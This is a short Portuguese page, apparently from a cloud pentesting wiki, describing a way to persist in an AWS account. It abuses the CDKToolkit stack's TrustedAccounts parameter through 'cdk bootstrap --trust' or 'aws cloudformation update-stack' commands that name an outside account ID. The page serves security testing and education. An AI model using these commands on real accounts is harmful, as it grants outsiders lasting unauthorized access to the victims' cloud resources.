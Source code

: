 # AWS - Persistência do Cloudformation

{{#include ../../../banners/hacktricks-training.md}}

## CloudFormation

Para mais informações, acesse:

{{#ref}}
../aws-services/aws-cloudformation-and-codestar-enum.md
{{#endref}}

### Pilha de Inicialização do CDK

O AWS CDK implanta uma pilha CFN chamada `CDKToolkit`. Esta pilha suporta um parâmetro `TrustedAccounts` que permite que contas externas implantem projetos CDK na conta da vítima. Um atacante pode abusar disso para conceder a si mesmo acesso indefinido à conta da vítima, seja usando o AWS cli para reimplantar a pilha com parâmetros, ou o AWS CDK cli.
```bash
# CDK
cdk bootstrap --trust 1234567890

# AWS CLI
aws cloudformation update-stack --use-previous-template --parameters ParameterKey=TrustedAccounts,ParameterValue=1234567890
```
{{#include ../../../banners/hacktricks-training.md}}
